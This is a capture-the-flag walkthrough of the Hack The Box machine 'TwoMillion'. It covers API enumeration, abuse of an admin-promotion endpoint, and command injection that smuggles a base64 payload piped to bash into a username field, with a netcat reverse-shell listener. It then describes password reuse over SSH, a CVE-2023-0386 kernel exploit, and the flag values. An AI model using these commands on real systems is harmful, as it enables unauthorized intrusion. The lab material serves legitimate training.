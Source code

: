 # HTB: TwoMillion

**Operating System:** Linux  
**Difficulty:** Easy  
**Author:** TRX & TheCyberGeek  
**Date of Engagement:** 2025-07-28  

---

## Engagement Overview

**Target IP:** 10.10.11.221  
**Local IP:** 10.10.16.9  
**Objective Summary:**
- Enumerate available API endpoints
- Gain initial access via web application vulnerabilities
- Escalate privileges to root using a kernel exploit (CVE-2023-0386)

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -Pn 10.10.11.221
```

**Result Summary:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

### Host Info

```
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
Ubuntu 22.04.2 LTS (Jammy)
```

**Note:** Add `2million.htb` to `/etc/hosts` for web access.

---

## Web Enumeration & Initial Access

1. Accessing the web server shows a legacy version of the HackTheBox platform.
2. JavaScript file `inviteapi.min.js` contains obfuscated code to generate an invite.
3. Deobfuscation reveals hidden POST routes:
   - `/api/v1/invite/how/to/generate`
   - `/api/v1/invite/generate`
4. Using the above endpoints, a valid invite code is generated and a user is registered.

### Account Creation via Invite Flow

```bash
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

Base64 decoded invite code used to register a user at `/register`.

---

## Gaining Administrative Access

After login:
1. Explored API endpoints using the session cookie.
2. Endpoint `/api/v1/admin/settings/update` lacks proper validation and allows privilege escalation.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"email":"test@2million.htb", "is_admin": 1}'
```

Admin privilege verified:
```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=<session>" | jq
```

---

## Remote Command Execution

Using elevated privileges, command injection achieved via:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"username":"test;echo <base64_payload> | base64 -d | bash;"}'
```

Reverse shell caught via Netcat:
```bash
nc -lvnp 1234
```

---

## Lateral Movement

1. Discovered `.env` in web root containing DB credentials.
2. SSH login as `admin` succeeded due to password reuse.

```bash
ssh admin@2million.htb
# Password: SuperDuperPass123
```

---

## Privilege Escalation

1. Enumerated `/var/mail/admin`, found advisory about kernel vulnerabilities.
2. Kernel version confirmed as vulnerable to CVE-2023-0386.

### Exploit Steps:
```bash
# Upload exploit to /tmp and unzip
scp cve.zip admin@2million.htb:/tmp
unzip cve.zip && cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &
./exp
```

**Root Shell Acquired.**

---

## Post-Exploitation

- `user.txt`: `b475fff37c4ba394114ba0602756546d`
- `root.txt`: `b24036bdc728d59ab7230cddbf43798b`

Discovered `thank_you.json` in `/root/`, triple-encoded message decoded using CyberChef.

---

## Tools Utilized

- Nmap
- Curl & jq
- Burp Suite
- CyberChef
- De4js
- GitHub Exploit CVE-2023-0386

---

## Key Takeaways

- JavaScript deobfuscation and endpoint hunting can lead to privilege escalation.
- Misconfigured API logic in `update_settings` allowed user promotion.
- VPN generation endpoint enabled code injection via unsanitized shell execution.
- Kernel version vulnerable to CVE-2023-0386 provided full system compromise.

---
